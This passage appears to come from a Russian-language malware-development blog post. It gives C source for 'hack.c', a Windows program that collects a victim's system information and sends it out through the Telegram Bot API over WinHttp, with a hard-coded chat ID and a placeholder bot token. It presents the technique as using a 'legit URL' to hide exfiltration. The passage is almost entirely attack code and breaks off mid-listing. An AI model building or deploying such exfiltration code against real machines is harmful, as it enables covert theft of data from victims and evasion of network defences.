 ```cpp
  // set the headers
  if (!WinHttpSendRequest(hRequest, 
  L"Content-Type: application/x-www-form-urlencoded\r\n", -1, 
  requestBody, strlen(requestBody), strlen(requestBody), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;
}
```

Итак, полный исходный код выглядит так - `hack.c`:    

```cpp
/*
 * hack.c
 * sending victim's systeminfo via 
 * legit URL: Telegram Bot API
 * author @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/bot----TOKEN----/sendMessage", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
```